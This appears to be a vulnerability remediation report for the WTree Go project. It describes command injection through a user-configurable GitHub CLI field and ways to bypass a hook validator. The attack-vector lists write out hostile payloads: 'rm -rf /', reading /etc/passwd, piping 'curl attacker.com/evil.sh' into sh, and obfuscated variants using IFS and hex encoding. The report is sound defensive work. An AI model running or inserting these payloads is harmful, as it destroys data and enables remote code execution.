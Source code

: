 # WTree Security Vulnerability Fixes Report

## Executive Summary

This report documents the identification and remediation of critical command injection vulnerabilities in the WTree project. The fixes implement comprehensive security validation using whitelist approaches, robust pattern matching, and extensive test coverage to prevent malicious command execution.

## Vulnerabilities Identified

### 1. GitHub CLI Command Injection (`internal/github/client.go`)

**Severity**: Critical  
**CVSS Score**: 9.8 (Critical)

**Description**: 
The `cliCommand` field in the GitHub client was user-configurable through global configuration and executed directly in `exec.Command()` calls without validation. This allowed arbitrary command execution via malicious configuration.

**Attack Vectors**:
- Configuration injection: `"rm -rf / #"` - Delete files system-wide
- Information disclosure: `"cat /etc/passwd; gh"` - Exfiltrate system information  
- Remote code execution: `"curl attacker.com/evil.sh | sh; gh"` - Execute remote scripts
- Command chaining: `"gh; malicious_command"` - Chain additional commands

**Vulnerable Code Locations**:
- Line 55: `exec.Command("which", c.cliCommand)`
- Line 61: `exec.Command(c.cliCommand, "auth", "status")`
- Line 77: `exec.Command(c.cliCommand, "pr", "view", ...)`
- Line 145: `exec.Command(c.cliCommand, "pr", "list", ...)`
- Line 204: `exec.Command(c.cliCommand, "pr", "checkout", ...)`
- Line 235: `exec.Command(c.cliCommand, "repo", "view", ...)`

### 2. Hook Command Validation Bypass (`internal/worktree/hooks.go`)

**Severity**: High  
**CVSS Score**: 8.5 (High)

**Description**: 
The original `validateHookCommand` function used simple string matching that could be easily bypassed using various obfuscation techniques, allowing execution of dangerous commands in hook configurations.

**Bypass Methods**:
- Case variations: `"RM -RF /"` instead of `"rm -rf /"`
- Comments: `"rm -rf / #comment"` - dangerous command with trailing comment
- Command chaining: `"echo 'safe'; rm -rf /"` - legitimate command followed by dangerous one
- Shell variable expansion: `"rm${IFS}-rf${IFS}/"` - using IFS to obfuscate spaces
- Hex encoding: `"\x72\x6d\x20\x2d\x72\x66\x20\x2f"` - hex encoded "rm -rf /"
